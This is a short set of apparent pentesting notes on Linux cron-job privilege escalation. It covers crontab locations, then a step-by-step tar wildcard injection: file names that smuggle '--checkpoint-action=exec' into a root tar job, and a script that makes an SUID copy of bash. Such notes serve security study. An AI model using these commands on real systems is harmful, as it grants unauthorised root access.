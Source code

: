 # Cron Jobs
------------
System wide crontabs:
```bash
/etc/crontab  #file
/etc/cron.d  #directory
```

User Crontabs:
```bash
/var/spool/cron/crontabs
```

 - Use pspy to identify processes run as root (pid 0)


### tar wilcard
If we have a cronjob running which uses tar like this with a wildcard:
```bash
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

We see that tar backups up everything in the /home/user folder to backup.tar.gz in /tmp folder.

Checking out GTFO bins we can abuse this by providing arguments for tar:
```bash
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Create a bash script:
```bash
echo 'cp /bin/bash /tmp/bash' > shell.sh
echo 'chmod +s /tmp/bash' >> shell.sh 
```

Create two files in the home directory of the user:
```bash
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.sh
```

---------
- [ ] Check on symlinks 



